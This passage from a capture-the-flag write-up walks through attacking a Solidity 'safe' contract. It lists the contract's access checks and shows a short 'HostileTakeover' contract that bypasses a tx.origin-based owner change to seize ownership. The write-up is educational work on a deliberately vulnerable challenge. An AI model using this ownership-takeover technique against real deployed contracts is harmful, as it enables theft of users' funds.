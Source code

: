 Our goal is then just succeeding at calling `withdrawFunds`.

We can see that this function has three safeguards:
1. The `restricted` function, which checks if the sender is the owner of the contract:
  ```solidity
modifier restricted() {
  require(
    msg.sender == owner,
    "This function is restricted to the contract's owner"
  );
  _;
}
```
2. The `passwordProtected` function, which requires us to provide two passphrases and a timestamp of their creation.
  ```solidity
modifier passwordProtected(bytes32 _secret_passphrase, bytes32 _secret_passphrase_2, uint _timestamp) {
    require(keccak256(abi.encodePacked(secret_passphrases[0], secret_passphrases[1], timestamp)) == keccak256(abi.encodePacked(_secret_passphrase, _secret_passphrase_2, _timestamp)), "Wrong secret passphrase");
    _;
  }
3. The person withdrawing the funds has more ether than the safe; This we can simply bypass by topping up with the faucet if we need to, but in a real scenario could be solved with a flash loan
```

# Hostile Takeover

Luckily for us, it seems Wayyang thought ahead and made it possible to transfer the ownership of the contract, presumably in an event that they move wallets.

Even more fortunate is that they basically forgot to secure it:
```solidity
function changeOwner(address _newOwner) public {
  if (tx.origin != msg.sender) {
    owner = _newOwner;
  }
}
```

If you solved [You Only Have One Chance](https://blog.opliko.dev/seetf-2022-you-only-have-one-chance-writeup) you should know what this `if` checks and how to bypass it: just make a smart contract.

```solidity
contract HostileTakeover {
    function changeOwner(address payable target, address newOwner) public {
      DuperSuperSafeSafe(target).changeOwner(newOwner);
    }
}
```

Let's try it then. First, let's ensure we're blocked by this filter in the first place. If you're using the VM, you'll need to select a different account than the one you used to deploy the contract.
We can just run the `withdrawFunds` function with incorrect parameters - they don't matter yet anyway.
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654473327946/Vrycbsaix.png align="left")
Yup, seems like we need to be the owners.

